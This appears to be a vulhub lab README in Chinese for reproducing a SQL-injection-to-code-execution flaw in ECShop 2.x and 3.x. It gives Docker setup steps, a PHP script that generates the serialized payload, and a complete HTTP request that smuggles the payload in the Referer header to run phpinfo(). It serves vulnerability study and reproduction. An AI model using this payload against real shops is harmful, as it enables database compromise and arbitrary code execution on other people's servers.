



# ECShop 2.x/3.x SQL注入/任意代码执行漏洞

ECShop是一款B2C独立网店系统，适合企业及个人快速构建个性化网上商店。系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

其2017年及以前的版本中，存在一处SQL注入漏洞，通过该漏洞可注入恶意数据，最终导致任意代码执行漏洞。其3.6.0最新版已修复该漏洞，vulhub中使用其2.7.3最新版与3.6.0次新版进行漏洞复现。

参考链接：

- https://paper.seebug.org/691/

## 环境搭建

执行如下命令启动ecshop 2.7.3与3.6.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到2.7.3的安装页面，访问`http://your-ip:8081`将看到3.6.0的安装页面。

依次安装二者，mysql地址填写`mysql`，mysql账户与密码均为`root`，数据库名随意填写，但2.7.3与3.6.0的数据库名不能相同。如图：



## 漏洞复现

我编写了一个脚本，可以生成2.x和3.x的POC：

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

生成的POC，放在Referer里发送：

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

2.x的执行结果



3.x的执行结果：


